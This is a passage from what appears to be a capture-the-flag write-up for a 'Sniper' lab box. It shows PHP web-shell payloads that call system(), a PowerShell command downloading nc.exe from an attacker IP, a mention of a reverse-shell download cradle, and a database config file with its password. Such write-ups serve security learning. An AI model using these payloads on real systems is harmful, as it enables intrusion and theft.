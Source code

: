 We could keep doing this manually for each command, for example here's how to download files on the host:

```php
<?php
	$commands = "powershell -Command \"IWR http://10.10.14.144/nc.exe -OutFile ./nc.exe\"";
        echo "<pre>";
        system($commands);
        echo "</pre>";
        die;
?>
```

Although nc.exe is flagged as malicious and deleted by Defender. A Nishang reverse shell with download cradle does not work either, and it is easy to tell why with this payload:

```php
<?php
	$commands = "powershell -Command \"\$ExecutionContext.SessionState.LanguageMode\"";
        echo "<pre>";
        system($commands);
        echo "</pre>";
        die;
?>
```

The result is:

![img](/images/writeup-sniper/8.png)

So PowerShell's constrained language is also enabled, limiting the actions we can perform with it.

After getting tired of changing the payload manually every time I found a [web shell](https://raw.githubusercontent.com/artyuum/Simple-PHP-Web-Shell/master/index.php) that works out of the box without being destroyed by Defender:

![img](/images/writeup-sniper/9.png)

From here shell commands have to be escaped slightly, for example:

![img](/images/writeup-sniper/10.png)


---

## Privilege Escalation #1: Passwsord Reuse + PSSession

The user folder has an old version of the registration page but the most interesting part is the db.php file in the same directory, which has the database credentials in it:

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```
